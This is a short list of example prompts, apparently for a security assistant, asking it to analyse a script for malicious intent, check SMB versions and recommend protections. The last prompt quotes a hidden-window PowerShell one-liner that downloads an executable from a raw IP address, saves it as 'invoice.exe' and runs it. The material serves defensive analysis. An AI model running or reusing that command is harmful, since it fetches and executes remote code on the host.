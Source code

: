 # Script Analysis
<a name="Script Analysis"></a>
- What actions are performed by this script?
- Explain how this script could be used maliciously
- Is this script malicious?
- Evaluate the provided script for malicious intent. Justify your assessment with supporting evidence and a confidence level.
- Write a PowerShell script to test the SMB versions and state across all the affected devices 
via remote connection.
- Write a PowerShell script to test the SMB versions and state across all the affected 
machines.
- Extract the entities from the script analysis (If script analysis is done)
- Give me recommendations to protect my organization against this script
- Analyze this script: powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden $ErrorActionPreference= 'silentlycontinue';(New-Object System.Net.WebClient).DownloadFile('http://54.161.241.46/1.exe', 'C:\\test-WDATP-test\\invoice.exe');Start-Process 'C:\\test-WDATP-test\\invoice.exe'


***
